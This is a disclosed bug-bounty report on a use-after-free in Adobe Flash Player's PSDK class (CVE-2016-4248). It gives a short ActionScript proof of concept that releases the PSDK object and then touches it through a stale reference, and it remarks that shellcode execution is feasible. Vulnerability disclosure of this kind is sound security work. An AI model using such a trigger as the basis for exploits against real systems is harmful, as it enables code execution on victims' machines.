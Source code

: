 # Adobe Flash Player PSDK Class Use After Free Vulnerability

## Report Details
- **Report ID**: 151043
- **URL**: https://hackerone.com/reports/151043
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2016-07-13T02:51:31.044Z
- **Disclosed**: 2019-11-12T09:41:54.320Z

## Reporter
- **Username**: hhj4ck
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ibb

## Vulnerability Information
I. Summary
Adobe Flash Player is prone to a vulnerability which leads to Use After Free. 
Since the release condition is highly controllable, it is feasible to build a fully working exploit for shellcode execution with proper AS3 object occupied the original PSDK memory. 
------------------------------------------------------------------
II. Description
PSDK Class expose a member function "release()", which can be called directly to release the inner memory of PSDK.pSDK.
However, Not all of PSDK's AS3 references are cleaned, it is still possible to invoke virtual functions on a release memory block.

Source Code of crash.swf:
package
{
            import com.adobe.tvsdk.mediacore.PSDK;  
            import flash.display.Sprite;    
           
            public class poc extends Sprite
            {
                        public function poc()
                        {
                                    var ps:PSDK = PSDK.pSDK;
                                    var ps_:PSDK = PSDK.pSDK;
                                    ps.release();
                                    ps_.currentTime;
                        }
            }
}
------------------------------------------------------------------
III. Impact
Use After Free
------------------------------------------------------------------
IV. Affected
Adobe Flash Player 22.0.0.192
------------------------------------------------------------------
V. Credit
Wen Guanxing from Pangu LAB is credited for this vulnerability.

It has been assigned as CVE-2016-4248 by Adobe:
https://helpx.adobe.com/security/products/flash-player/apsb16-25.html

## Attachments
- crash.swf
